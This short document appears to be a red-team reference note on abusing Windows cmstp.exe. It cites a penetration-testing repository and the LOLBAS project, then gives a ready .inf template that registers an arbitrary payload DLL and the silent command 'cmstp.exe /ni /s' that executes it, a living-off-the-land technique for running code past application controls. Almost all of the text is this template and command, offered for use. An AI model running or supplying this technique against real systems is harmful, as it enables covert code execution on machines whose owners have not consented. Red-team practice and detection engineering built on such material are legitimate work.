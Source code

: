 ### Source
* https://github.com/mgeeky/Penetration-Testing-Tools/blob/master/red-teaming/cmstp-template.inf
* https://lolbas-project.github.io/lolbas/Binaries/Cmstp/

### File template
```
[version]
signature=$chicago$
 
[defaultinstall_singleuser]
registerocxs=r
 
[r]
C:\fully\qualified\path\to\payload.dll
 
[strings]
servicename=foobar
shortsvcname=foobar
```

### Execute file
```
cmstp.exe /ni /s .\<file>.inf
```

